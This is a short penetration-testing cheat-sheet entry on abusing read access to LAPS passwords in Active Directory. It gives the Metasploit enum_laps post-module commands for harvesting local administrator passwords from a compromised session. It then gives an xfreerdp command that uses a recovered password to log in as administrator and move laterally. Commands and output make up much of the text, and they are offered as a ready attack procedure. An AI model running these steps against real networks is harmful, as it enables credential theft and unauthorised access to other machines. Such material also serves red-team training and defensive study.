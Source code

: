 # LAPS Reader

If user is in PswReaders group, then you can read LAPS passwords. To abuse this with a metasploit shell:

```
use windows/gather/credentials/enum_laps
msf5 post(windows/gather/credentials/enum_laps) > set session #
session => #
msf5 post(windows/gather/credentials/enum_laps) > run
```

Enumerate hosts that you have the local admin password to and move laterally based on open connections. For example: (RDP)



```
xfreerdp /u:administrator /v:192.168.X.Y /w:1200 /h:1000
[10:57:29:033] [36184:36185] [INFO][com.freerdp.client.common.cmdline] - loading channelEx cliprdr
Password: LAPSpassword
```

